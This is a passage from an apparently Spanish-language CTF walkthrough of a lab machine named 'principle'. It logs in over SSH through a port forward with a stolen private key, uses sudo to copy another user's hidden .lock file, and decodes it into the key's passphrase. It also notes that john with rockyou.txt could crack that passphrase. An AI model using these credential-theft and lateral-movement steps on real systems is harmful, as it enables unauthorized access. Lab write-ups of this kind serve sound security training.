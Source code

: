 Una vez establecida la conexión, desde la máquina atacante nos conectaremos desde otra ventana de forma "local" a la máquina víctima por SSH cargando la clave robada:

~~~bash
❯ ssh -p 3445 -i id_rsa elohim@localhost
Enter passphrase for key 'id_rsa': 
~~~

Si recordamos la pista que nos dieron ("REMEMBER: You need the access key and open the door. Anyway, he has a bad memory and that's why he keeps the lock coded and hidden at home."), ya tenemos la llave (id_rsa) y hemos abierto la puerta de entrada (remote port forwarding), pero nos falta el "lock/cerrojo". Si nos hemos fijado, existe un fichero llamado .lock en la carpeta de trabajo de elohim. Vamos a robárselo también:

~~~bash
talos@principle:~$ touch .lock
talos@principle:~$ sudo -u elohim cp /home/gehenna/.lock .
talos@principle:~$ cat .lock
7072696e6369706c6573
~~~

Parece que se trada de una codificación en hexadecimal, la copiamos a un fichero de nuestra máquina:

~~~
❯ xxd -r -ps < hexa
principles
~~~

Bien, pues esta será la "passphrase" que nos pide la clave al acceder, así que ya lo tenemos todo, vamos a por ello:

> La passphrase se podría sacar con john, pues está en rockyou.txt, pero tardaría bastante.

~~~bash
❯ ssh -p 3445 -i id_rsa elohim@localhost
Enter passphrase for key 'id_rsa': 
Linux principle 6.1.0-9-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.27-1 (2023-05-08) x86_64

                                 ...',;;:cccccccc:;,..
                            ..,;:cccc::::ccccclloooolc;'.
                         .',;:::;;;;:loodxk0kkxxkxxdocccc;;'..
                       .,;;;,,;:coxldKNWWWMMMMWNNWWNNKkdolcccc:,.
                    .',;;,',;lxo:...dXWMMMMMMMMNkloOXNNNX0koc:coo;.
                 ..,;:;,,,:ldl'   .kWMMMWXXNWMMMMXd..':d0XWWN0d:;lkd,
               ..,;;,,'':loc.     lKMMMNl. .c0KNWNK:  ..';lx00X0l,cxo,.
             ..''....'cooc.       c0NMMX;   .l0XWN0;       ,ddx00occl:.
           ..'..  .':odc.         .x0KKKkolcld000xc.       .cxxxkkdl:,..
         ..''..   ;dxolc;'         .lxx000kkxx00kc.      .;looolllol:'..
        ..'..    .':lloolc:,..       'lxkkkkk0kd,   ..':clc:::;,,;:;,'..
        ......   ....',;;;:ccc::;;,''',:loddol:,,;:clllolc:;;,'........
            .     ....'''',,,;;:cccccclllloooollllccc:c:::;,'..
                    .......'',,,,,,,,;;::::ccccc::::;;;,,''...
                      ...............''',,,;;;,,''''''......
                           ............................


Son, you didn't listen to me, and now you're trapped.
You've come a long way, but this is the end of your journey.

elohim@principle:~$ 
~~~
